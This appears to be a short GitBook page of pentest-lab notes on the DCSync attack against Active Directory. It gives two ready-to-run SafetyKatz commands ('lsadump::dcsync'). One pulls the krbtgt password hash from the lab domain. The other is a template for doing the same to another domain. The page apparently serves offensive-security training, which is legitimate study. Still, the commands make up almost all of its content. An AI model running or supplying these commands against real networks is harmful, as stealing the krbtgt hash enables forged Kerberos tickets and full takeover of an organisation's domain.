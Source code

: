 # DCSync

### E_xecute the DCSync attack to pull hashes of the krbtgt user_&#x20;

Use safetykatz to extract the hash of any user

```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```

<figure><img src="../../../../.gitbook/assets/Pasted image 20231025125418 (1).png" alt=""><figcaption></figcaption></figure>

### DCSync another domain

{% code overflow="wrap" %}
```
./SafetyKatz.exe "lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<TARGET DOMAIN>" "exit"
```
{% endcode %}
